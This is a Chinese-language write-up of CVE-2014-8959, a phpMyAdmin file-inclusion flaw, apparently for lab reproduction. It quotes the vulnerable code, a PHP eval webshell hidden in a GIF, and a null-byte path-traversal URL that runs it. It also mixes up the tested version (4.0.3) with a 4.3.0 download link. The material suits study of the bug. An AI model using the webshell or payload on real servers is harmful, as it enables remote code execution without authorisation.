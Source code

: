 # CVE-2014-8959

CVE-2014-8959是phpMyAdmin的一个任意文件包含漏洞。

## 影响版本

- 4.0.x     4.0.10.6以下
- 4.1.x     4.1.14.7以下
- 4.2.x     4.2.12以下

## 漏洞成因

`libraries/gis/pma_gis_factory.php`的 `$type_lower`变量未过滤，直接`include_once`导致的任意文件包含

```php
class PMA_GIS_Factory
{
    /**
     * Returns the singleton instance of geometric class of the given type.
     *
     * @param string $type type of the geometric object
     *
     * @return object the singleton instance of geometric class of the given type
     * @access public
     * @static
     */
    public static function factory($type)
    {
        include_once './libraries/gis/pma_gis_geometry.php';

        $type_lower = strtolower($type);
        if (! file_exists('./libraries/gis/pma_gis_' . $type_lower . '.php')) {
            return false;
        }
        if (include_once './libraries/gis/pma_gis_' . $type_lower . '.php') {
            //...
        }
    }
}
```

## Exploit

这个漏洞利用有两个前提：

1. 能登陆phpMyAdmin，满足phpmyadmin的安全检查
2. 需要截断，需要满足下面的要求之一
   - PHP的版本需要小于 5.3.4(参考：[CVE-2006-7243](http://www.cvedetails.com/cve/CVE-2006-7243/))且gpc关闭
   - 利用长文件名截断

为满足上述条件，使用PHP 5.2.17 和 [phpmyadmin 4.0.3](https://files.phpmyadmin.net/phpMyAdmin/4.3.0/phpMyAdmin-4.3.0-all-languages.zip)版本进行测试。并在pma同级目录下有一个包含一句话木马的图片文件。

目录结构：

```sh
$ tree -L 1 -F
.
├── 1.gif
├── index.php
├── info.php
└── pma/
```

1.gif内容：

```php
<?php
@eval($_POST[a]);
?>
```

利用步骤：

1. 使用 pmatest/pmatest 作为用户名密码登陆phpMyAdmin
2. 从url中获取token
3. 访问`http://<IP>/pma/gis_data_editor.php?token=effa7667f41b469bde9c43d6e814f9a4&&gis_data[gis_type]=/../../../../1.gif%00`，同时post`a=phpinfo();`

![](./test.png)

## 参考

- http://bobao.360.cn/learning/detail/113.html
- https://www.phpmyadmin.net/security/PMASA-2014-14/